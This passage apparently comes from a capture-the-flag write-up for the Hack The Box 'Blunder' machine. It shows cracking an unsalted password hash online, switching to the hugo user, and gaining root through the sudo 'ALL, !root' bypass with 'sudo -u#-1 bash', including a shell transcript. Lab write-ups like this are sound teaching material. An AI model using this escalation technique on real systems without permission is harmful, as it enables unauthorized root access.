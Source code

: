 Since the second one doesn't seem to have a salt, lets try throwing it into `https://crackstation.net/`. Success, the password is `Password120`.

## Owning User

Looks like this password works for the `hugo` user, which we had to `su` to since there's no ssh port. Grab user.txt.

# Owning Root

Since we've got the password lets try `sudo -l`. Interesting, what does "(ALL, !root)" mean? Lets google `sudo "ALL, !root"` and we find
https://www.theregister.com/2019/10/14/linux_sudo_security_bug/. Lets give it a try:

```shell-session
hugo@blunder:~$ sudo -l
Password:
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
hugo@blunder:~$ sudo -u#-1 bash
root@blunder:/home/hugo# cd /root
root@blunder:/root# cat root.txt
e236***********************bd908
```
